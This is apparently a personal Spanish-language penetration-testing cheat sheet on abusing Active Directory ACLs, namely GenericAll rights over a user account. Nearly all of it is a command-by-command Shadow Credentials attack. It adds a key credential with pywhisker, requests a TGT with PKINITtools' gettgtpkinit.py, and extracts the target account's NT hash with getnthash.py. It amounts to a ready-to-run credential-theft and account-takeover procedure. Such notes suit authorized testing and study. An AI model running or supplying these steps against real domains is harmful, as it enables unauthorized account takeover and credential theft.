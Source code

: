 # Abuso ACL 

Tags: #AD #ACL #Linux #Impacket 

## GenerciAll sobre Usuario 

* [PyWhisker](https://github.com/ShutdownRepo/pywhisker/tree/main/pywhisker)
* [Shadow Credentials attack](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

```bash
# Shadow credentials attack 
❯ pywhisker.py -d "domain" -u "ControlledAccount" -p "password" --target "targetAccount" --action "add" 
❯ pywhisker.py -d "domain" -u "ControlledAccount" -H :Hash_NT --target "targetAccount" --action "add" 

Notas:
	1. Crear un directorio en donde se guardará toda la info del comando 
	2. El output muestra la 'password' que se utilizará para obtener un TGT 
	3. Crea un 'cert.pfx' 
```

```bash 
Seguir los siguientes pasos para obtener el hash NT:
❯ git clone https://github.com/dirkjanm/PKINITtools     # Clonar e ingresar 

❯ python3 gettgtpkinit.py -cert-pfx cert.pfx -pfx-pass 'password' domain/User_Target output.ccache   # En el output del comando se muestra la 'key'
	
	# password = Es la obtenida en Pywhisker
	# cert-pfx = Es el obtenido en Pywhisker
	# output.ccache = Nombre de exportación 

❯ python3 getnthash.py -key 123456 -dc-ip IP_DC domain/User_Target    

# Si el comando anterior muestra un error por la variable de entorno 'KRB5CCNAME', hacer lo siguiente: 
❯ KRB5CCNAME=output.ccache python3 getnthash.py -key 123456 -dc-ip IP_DC domain/User_Target   # Obtener el hash NT  
```